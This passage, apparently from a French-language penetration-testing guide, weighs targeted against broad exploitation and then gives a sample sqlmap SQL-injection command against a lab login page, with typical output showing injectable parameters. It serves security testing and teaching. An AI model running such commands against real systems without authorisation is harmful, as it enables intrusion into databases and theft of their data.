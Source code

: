 **Avantages :**
- Risque réduit de perturbation des services
- Approche plus discrète, moins susceptible de déclencher des alertes
- Meilleure précision dans l'évaluation des vulnérabilités spécifiques

**Inconvénients :**
- Peut manquer certaines vulnérabilités exploitables
- Processus généralement plus lent
- Nécessite une analyse préalable approfondie

#### Exploitation étendue

L'exploitation étendue vise à identifier et exploiter le maximum de vulnérabilités possibles pour obtenir une vision complète de la surface d'attaque.

**Avantages :**
- Identification plus complète des vulnérabilités exploitables
- Meilleure évaluation de l'exposition globale aux risques
- Simulation plus réaliste d'une attaque réelle

**Inconvénients :**
- Risque accru de perturbation des services
- Plus susceptible de déclencher des alertes de sécurité
- Peut nécessiter plus de ressources et de temps

### Commandes types et exemples de sorties

#### 1. Exploitation de vulnérabilités web

**Commande SQLMap pour injection SQL :**
```bash
sqlmap -u "http://192.168.1.10/login.php" --data="username=admin&password=test" --dbs
```

**Sortie typique :**
```
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.4#stable}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:40:00 /2025-04-02/

[18:40:00] [INFO] testing connection to the target URL
[18:40:01] [INFO] testing if the target URL content is stable
[18:40:01] [INFO] target URL content is stable
[18:40:01] [INFO] testing if POST parameter 'username' is dynamic
[18:40:01] [INFO] POST parameter 'username' appears to be dynamic
[18:40:01] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[18:40:02] [INFO] heuristic (basic) test shows that POST parameter 'password' might be injectable (possible DBMS: 'MySQL')
[18:40:02] [INFO] testing for SQL injection on POST parameter 'username'
[18:40:02] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[18:40:03] [INFO] POST parameter 'username' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[18:40:03] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[18:40:04] [INFO] POST parameter 'username' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable 
[18:40:04] [INFO] testing 'MySQL inline queries'
```